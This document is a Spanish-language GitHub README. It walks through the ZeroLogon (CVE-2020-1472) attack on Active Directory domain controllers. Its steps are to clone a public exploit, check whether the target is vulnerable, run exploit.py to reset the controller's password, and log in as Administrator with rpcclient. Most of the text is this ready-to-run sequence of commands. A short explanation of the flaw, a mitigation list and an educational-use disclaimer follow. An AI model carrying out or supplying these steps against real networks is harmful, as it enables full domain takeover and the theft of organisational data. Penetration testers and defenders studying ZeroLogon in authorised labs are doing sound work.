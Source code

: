 # Ataque ZeroLogon (CVE-2020-1472) - Explicación paso a paso

Este repositorio contiene una explicación detallada para entender y ejecutar el ataque **ZeroLogon** contra un controlador de dominio vulnerable de Active Directory, utilizando el exploit disponible en el repositorio de [VoidSec/CVE-2020-1472](https://github.com/VoidSec/CVE-2020-1472).

---

## ¿Qué es ZeroLogon?

ZeroLogon es una vulnerabilidad crítica (CVE-2020-1472) que afecta el protocolo Netlogon de Microsoft. Permite a un atacante sin autenticación obtener acceso completo de administrador al controlador de dominio de Active Directory explotando un fallo en el proceso de autenticación basado en AES-CFB8.

---

## Requisitos

- Controlador de dominio vulnerable (sin parche contra CVE-2020-1472).
- Máquina atacante con:
  - Sistema Linux (o WSL en Windows).
  - Python 3 instalado.
  - Acceso a la red donde está el controlador de dominio.

---

## Paso 1: Preparar la máquina atacante

```bash
sudo apt update
sudo apt install git python3 python3-pip -y
```

---

## Paso 2: Clonar el repositorio del exploit

```bash
git clone https://github.com/VoidSec/CVE-2020-1472.git
cd CVE-2020-1472
```

---

## Paso 3: Instalar dependencias Python

```bash
pip3 install -r requirements.txt
```

---

## Paso 4: Verificar vulnerabilidad del controlador de dominio (opcional)

```bash
python3 check.py <IP_del_controlador_de_dominio>
```

Si el resultado indica que el controlador es vulnerable, puedes continuar.

---

## Paso 5: Ejecutar el exploit para resetear la contraseña del DC

```bash
python3 exploit.py <IP_del_controlador_de_dominio> <Nueva_contraseña_para_DC>
```

Ejemplo:

```bash
python3 exploit.py 192.168.1.100 Password123!
```

---

## Paso 6: Verificar que la contraseña cambió y acceso administrativo

Puedes probar conectarte con la nueva contraseña usando `rpcclient`:

```bash
rpcclient -U Administrator%Password123! 192.168.1.100
```

Si te conecta, tienes acceso administrativo al dominio.

---

## ¿Qué sucede durante el ataque?

- El exploit envía paquetes Netlogon con claves nulas para "engañar" al controlador de dominio.
- Debido a un error criptográfico en Netlogon, el DC acepta la sesión sin validar la clave.
- El atacante puede cambiar la contraseña del DC y obtener privilegios de administrador.

---

## Medidas de mitigación

- Aplicar los parches oficiales de Microsoft desde agosto 2020.
- Monitorizar eventos sospechosos en logs de Netlogon (Event ID 5827, 5828).
- Limitar el acceso a los controladores de dominio desde la red.

---

## Referencias

- [CVE-2020-1472 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-1472)
- [VoidSec/CVE-2020-1472 GitHub](https://github.com/VoidSec/CVE-2020-1472)
- [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-1472)

---

## Aviso Legal

Esta información es solo para fines educativos y debe usarse únicamente en entornos controlados con permiso explícito. El uso no autorizado puede ser ilegal y conllevar consecuencias legales.

---

# Autor

Explicación preparada por [Tu Nombre] para fines educativos y formativos.
